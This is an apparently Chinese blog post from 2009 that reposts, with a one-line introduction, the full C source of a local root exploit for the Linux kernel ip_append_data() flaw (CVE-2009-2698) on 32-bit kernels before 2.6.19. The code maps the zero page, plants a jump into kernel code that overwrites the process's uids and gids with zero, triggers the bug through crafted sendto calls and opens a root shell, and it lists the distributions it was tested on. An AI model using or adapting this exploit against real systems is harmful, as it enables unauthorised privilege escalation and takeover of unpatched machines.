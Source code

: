 ```yaml
---
title: Linux Kernel 2.6 < 2.6.19 (32bit) ip_append_data() ring0 Root Exploit
description: 第2波来了。。。LinuxKernel2.6<2.6.19(32bit)ip_append_data()ring0RootExploit，前几天的见此：LinuxKernel2.xsock_sendpage()LocalRootExploit利用工具LinuxKernel2.6<2.6.19(32bit)ip_append_data()ring0RootExploit 代码：
date: 2009-09-02 10:04:08
category: 漏洞信息
tags: ['Linux', '漏洞信息', 'exploit']
post_id: 962
alias: Linux-Kernel-2.6.19-32bit-ip_append_data-ring0-Root-Exploit
ViewNums: 3646
---
```


第2波来了。。。[Linux Kernel 2.6 < 2.6.19 (32bit) ip_append_data() ring0 Root Exploit](/blog/linux-kernel-2619-32bit-ip_append_data-ring0-root-exploit)，前几天的见此：[Linux Kernel 2.x sock_sendpage() Local Root Exploit 利用工具](/blog/linux-kernel-2.x-sock_sendpage-local-root-exploit "linux kernel 2.x sock_sendpage(  Local Root Exploit 利用工具")

[Linux Kernel 2.6 < 2.6.19 (32bit) ip_append_data() ring0 Root Exploit](/blog/linux-kernel-2619-32bit-ip_append_data-ring0-root-exploit) 代码：

/*
**
** 0x82-CVE-2009-2698
** [Linux kernel 2.6 < 2.6.19 (32bit) ip_append_data() local ring0 root exploit](/blog/linux-kernel-2619-32bit-ip_append_data-ring0-root-exploit)
**
** Tested White Box 4(2.6.9-5.ELsmp),
** CentOS 4.4(2.6.9-42.ELsmp), CentOS 4.5(2.6.9-55.ELsmp),
** Fedora Core 4(2.6.11-1.1369_FC4smp), Fedora Core 5(2.6.15-1.2054_FC5),
** Fedora Core 6(2.6.18-1.2798.fc6).
**
** --
** Discovered by Tavis Ormandy and Julien Tinnes of the Google Security Team.
** Thankful to them.
**
** --
** bash$ gcc -o 0x82-CVE-2009-2698 0x82-CVE-2009-2698.c && ./0x82-CVE-2009-2698
** sh-3.1# id
** uid=0(root) gid=0(root) groups=500(x82) context=user_u:system_r:unconfined_t
** sh-3.1#
** --
** exploit by <p0c73n1(at)gmail(dot)com>.
**
*/

#include <stdio.h>
#include <unistd.h>
#include <string.h>
#include <sys/socket.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <sys/personality.h>

unsigned int uid, gid;
void get_root_uid(unsigned *task)
{
 unsigned *addr=task;
 while(addr[0]!=uid||addr[1]!=uid||addr[2]!=uid||addr[3]!=uid){
  addr++;
 }
 addr[0]=addr[1]=addr[2]=addr[3]=0; /* set uids */
 addr[4]=addr[5]=addr[6]=addr[7]=0; /* set gids */
 return;
}
void exploit();
void kernel_code()
{
 asm("exploit:
"
  "push %eax
"
  "movl $0xfffff000,%eax
"
  "andl %esp,%eax
"
  "pushl (%eax)
"
  "call get_root_uid
"
  "addl $4,%esp
"
  "popl %eax
");
 return;
}
void *kernel=kernel_code;

int main(int argc, char **argv)
{
 int fd=0;
 char buf[1024];
 struct sockaddr x0x;
 void *zero_page;

 uid=getuid();
 gid=getgid();
 if(uid==0){
  fprintf(stderr,"[-] check ur uid
");
  return -1;
 }
 if(personality(0xffffffff)==PER_SVR4){
  if(mprotect(0x00000000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC)==-1){
   perror("[-] mprotect()");
   return -1;
  }
 }
 else if((zero_page=mmap(0x00000000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE,0,0))==MAP_FAILED){
   perror("[-] mmap()");
   return -1;
 }
 *(unsigned long *)0x0=0x90909090;
 *(char *)0x00000004=0x90; /* +1 */
 *(char *)0x00000005=0xff;
 *(char *)0x00000006=0x25;
 *(unsigned long *)0x00000007=(unsigned long)&kernel;
 *(char *)0x0000000b=0xc3;

 if((fd=socket(PF_INET,SOCK_DGRAM,0))==-1){
  perror("[-] socket()");
  return -1;
 }
 x0x.sa_family=AF_UNSPEC;
 memset(x0x.sa_data,0x82,14);
 memset((char *)buf,0,sizeof(buf));
 sendto(fd,buf,1024,MSG_PROXY|MSG_MORE,&x0x,sizeof(x0x));
 sendto(fd,buf,1024,0,&x0x,sizeof(x0x));
 if(getuid()==uid){
  printf("[-] exploit failed, try again
");
  return -1;
 }
 close(fd);
 execl("/bin/sh","sh","-i",NULL);
 return 0;
}

/* eoc */

// [milw0rm.com](http://www.milw0rm.com/exploits/9542) [2009-08-31]


